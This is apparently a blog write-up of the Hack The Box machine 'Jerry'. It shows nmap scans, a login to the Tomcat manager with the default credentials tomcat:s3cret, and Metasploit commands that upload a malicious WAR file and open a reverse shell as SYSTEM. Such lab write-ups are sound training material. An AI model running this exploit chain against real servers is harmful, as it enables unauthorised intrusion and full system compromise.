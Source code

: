 # Jerry
## Information disclosure
## Metasploit
``````

➜  ~ rustscan -a jerry.htb --ulimit 5000  

Open 10.10.10.95:8080

➜  ~ sudo nmap -Pn -sV -T4 -oA ~/htb jerry.htb --vv 

PORT     STATE SERVICE REASON          VERSION
8080/tcp open  http    syn-ack ttl 127 Apache Tomcat/Coyote JSP engine 1.1

➜  ~ sudo nmap -Pn -A -T4 jerry.htb --vv 

PORT     STATE SERVICE REASON          VERSION
8080/tcp open  http    syn-ack ttl 127 Apache Tomcat/Coyote JSP engine 1.1
|_http-title: Apache Tomcat/7.0.88
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS

Go to:

http://jerry.htb:8080

Information disclosure:

Apache Tomcat/7.0.88

Go to:

Server status
Input:

admin:admin

Go to:

http://jerry.htb:8080/docs/html-manager-howto.html#Upload_a_WAR_file_to_install

After some GoogleFu:

https://null-byte.wonderhowto.com/how-to/hack-apache-tomcat-via-malicious-war-file-upload-0202593/

There is a metasploit module that does all the leg work to upload war file
After skipping enumeration phase due to having valid credentials admin:admin fails

Go to: (Manager App on main page):

http://jerry.htb:8080/manager/html

Response:

For example, to add the manager-gui role to a user named tomcat with a password of s3cret, add the following to the config file listed above.

<role rolename="manager-gui"/>
<user username="tomcat" password="s3cret" roles="manager-gui"/>

The generic credentials work

Alternatively,

https://null-byte.wonderhowto.com/how-to/hack-apache-tomcat-via-malicious-war-file-upload-0202593/

msf6 > use auxiliary/scanner/http/tomcat_mgr_login 
msf6 auxiliary(scanner/http/tomcat_mgr_login) > options
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set rhosts 10.10.10.95
msf6 auxiliary(scanner/http/tomcat_mgr_login) > run

Response:

[+] 10.10.10.95:8080 - Login Successful: tomcat:s3cret

sudo msfconsole
msf6 > search tomcat_mgr_upload
msf6 exploit(multi/http/tomcat_mgr_upload) > show options
msf6 exploit(multi/http/tomcat_mgr_upload) > set rhosts 10.10.10.95
msf6 exploit(multi/http/tomcat_mgr_upload) > set HttpPassword s3cret
msf6 exploit(multi/http/tomcat_mgr_upload) > set HttpUsername tomcat
msf6 exploit(multi/http/tomcat_mgr_upload) > set rport 8080
msf6 exploit(multi/http/tomcat_mgr_upload) > set lhost tun0
msf6 exploit(multi/http/tomcat_mgr_upload) > run
meterpreter > shell
C:\apache-tomcat-7.0.88>whoami

whoami
nt authority\system

C:\apache-tomcat-7.0.88>cd ..
C:\>cd Users\Administrator\Desktop\flags
C:\Users\Administrator\Desktop\flags>type *  
type *

2 for the price of 1.txt

user.txt

user_flag

root.txt

root_flag

``````

![image](https://0xc0rvu5.github.io/docs/assets/images/20220622115258.png)

![image](https://0xc0rvu5.github.io/docs/assets/images/20220622115617.png)

![image](https://0xc0rvu5.github.io/docs/assets/images/20220622120523.png)

![image](https://0xc0rvu5.github.io/docs/assets/images/20220622121246.png)

![image](https://0xc0rvu5.github.io/docs/assets/images/20220622122212.png)

![image](https://0xc0rvu5.github.io/docs/assets/images/20220622125933.png)

![image](https://0xc0rvu5.github.io/docs/assets/images/20220622130017.png)

![image](https://0xc0rvu5.github.io/docs/assets/images/20220622130528.png)

![image](https://0xc0rvu5.github.io/docs/assets/images/20220625004257.png)

#hacking

